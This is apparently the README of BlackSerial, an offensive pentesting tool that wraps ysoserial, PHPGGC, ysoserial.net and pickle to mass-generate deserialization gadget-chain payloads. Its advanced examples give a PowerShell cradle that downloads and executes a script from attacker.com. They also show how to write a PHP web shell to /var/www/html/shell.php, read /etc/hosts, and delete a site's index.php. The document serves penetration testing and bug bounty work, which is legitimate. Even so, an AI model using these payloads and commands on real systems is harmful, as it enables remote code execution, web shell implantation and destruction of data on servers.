 # BlackSerial

A Blackbox Gadget Chain Serializer for Java ([YSOSerial](https://github.com/frohoff/ysoserial)), PHP ([PHPGGC](https://github.com/ambionics/phpggc)), Python ([Pickle](https://docs.python.org/3/library/pickle.html)), C#/.Net ([YSOSerial\.Net](https://github.com/pwntester/ysoserial)).

BlackSerial is a python wrapper for different gadget chain serializers. It is designed to be used during Blackbox pentesting or Bugbounty where you suspect a deserialisation user input but you don't have the code to identify or craft a gadget chain.

Its first objective is to identify working gadget chain on a blackbox code base via out of band interact/collaborator dns callback, not to do the full exploitation. You can detect the good gadget chain by putting `%%chain_id%%` in your payload for instance. Then use directly the serializer.

It attempts to generate all possible chains, managing the burden of providing different input formats and options, and output the results in a file that can be used in Burp Intruder for instance.

It provides no new technique.

## Features

* Generates around 200 gadget chains in a "best effort" approach with default options and all possible formatters
* Supported serializers: PHPGGC (PHP), YSOSerial (Java), YSOSerial.Net (C# .Net), Pickle (Python)
* Out of band execution detection first
* Standardized cli interface for all serializers
* Supported encodings: Base64 `-b`, URL `-u`, or Base64 URL safe `-ub`
* Isolates unsafe gadgets that delete files with `--unsafe` option
* Can generates all payloads in 1 file or 1 file per payload with `-o1` in the format `<chain_name>.txt`
* Can generates 1 named gadget chain
* Add custom serializers options with `--phpggc-options`, `--ysoserial-options` and `--ysoserial-net-options`
* Provides 5 custom pickle byte-code (it's not really a chain for pickle)

Note: a similar project exists but for ysoserial only and do not work for all payloads: https://github.com/aludermin/ysoserial-wrapper

## Basic examples

List all supported gadget chains:
```
python3 blackserial.py -s all -l
```

Generates PHP payloads base64 encoded into `payloads.txt` (default output file) with `nslookup %%domain%%` system command (default command):
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b
```

Same with Java but URL encoded:
```
python3 blackserial.py -s java -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -u
```

Same with Python but Base64 urlsafe:
```
python3 blackserial.py -s python -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -bu
```

Same with C#:
```
python3 blackserial.py -s csharp -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -bu
```

## Advanced examples

Generates Java payloads base64 encoded with powershell cradle for Windows target:
```
python3 blackserial.py -s java -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b -c "powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('https://attacker.com/payload.ps1');\"" -o payloads.txt
```

Generates PHP payloads base64 encoded and then URL encoded and custom read/write files locations:
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b -u -o payloads.txt --remote-content '<?php echo exec($_GET["command"]); ?>' --remote-file-to-write /var/www/html/shell.php --remote-file-to-read /etc/hosts 
```

Generates also unsafe PHP payloads base64 encoded and try to delete `/var/www/html/index.php`:
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b -o payloads.txt --unsafe --remote-file-to-delete /var/www/html/index.php
```

Generates C# payloads with formatter types `Json.Net` and `FastJson` with 1 payload by file:
```
python3 blackserial.py -s csharp -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com --ysoserial-net-formatter Json.Net,FastJson -o1 --output ./payloads-dir/
```

Generates only 1 PHP gadget `WordPress/Dompdf/RCE1` with PHP function `exec`:
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b --php-function exec WordPress/Dompdf/RCE1
```

## Docker install

TODO

## Script local install

```
./install.sh
```

## Manual install

Offline installation is possible with required dependencies in the `./archives` directory.

### phpggc

```
git clone https://github.com/ambionics/phpggc
```

### ysoserial

Install JRE8 in a local directory:
```
wget "https://javadl.oracle.com/webapps/download/AutoDL?BundleId=251398_0d8f12bc927a4e2c9f8568ca567db4ee" -O jre-8u431-linux-x64.tar.gz
tar -xzf jre-8u431-linux-x64.tar.gz
```

Download last release from officiel repo: https://github.com/frohoff/ysoserial/releases
```
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

Put `ysoserial-all.jar` in the same directory as `blackserial.py`

## pickle

Just install python pickle module:
```
pip3 install pickledb
```

### ysoserial\.net

Under debian linux, use wine:
```
sudo apt update 
sudo apt install mono-complete wine winetricks -y
winetricks dotnet48
winetricks nocrashdialog
```

Download last release from officiel repo: https://github.com/pwntester/ysoserial.net/releases

Unzip it.

Make a unit test to see if everything is ok:
```
wine ./Release/ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "ping 127.0.0.1"
```

## FAQ / known issues

## Why install another JRE? I have already one installed

Lots of ysoserial payloads need at least JRE 11 and some JRE 8. It is better to download a local JVM to generate them correctly. You can still use your JVM with the option `--java-path`

## Why ysoserial\.net generation is so slow?

Under linux, blackserial uses wine to launch ysoserial.exe and thus it is slow. Should not be the case under Windows.

## Some gadgets fail to generate

* ysoserial\.net: ActivitySurrogateDisableTypeCheck
* ysoserial\.net: PSObject 
* ysoserial\.net: ObjRef with formatter 'ObjectStateFormatter'
* ysoserial\.net: TypeConfuseDelegateMono
* ysoserial\.net: XamlAssemblyLoadFromFile with formatter 'SoapFormatter'
* phpggc: Symfony/RCE14 (PR opened)



## TODO

* ruby
* manage phar
* docker


## ⚠️ WARNING: LEGAL DISCLAIMER

This tool is intended for **educational and ethical use only**. The author is not liable for any illegal use or misuse of this tool. Users are solely responsible for their actions and must ensure they have explicit permission to scan the target systems.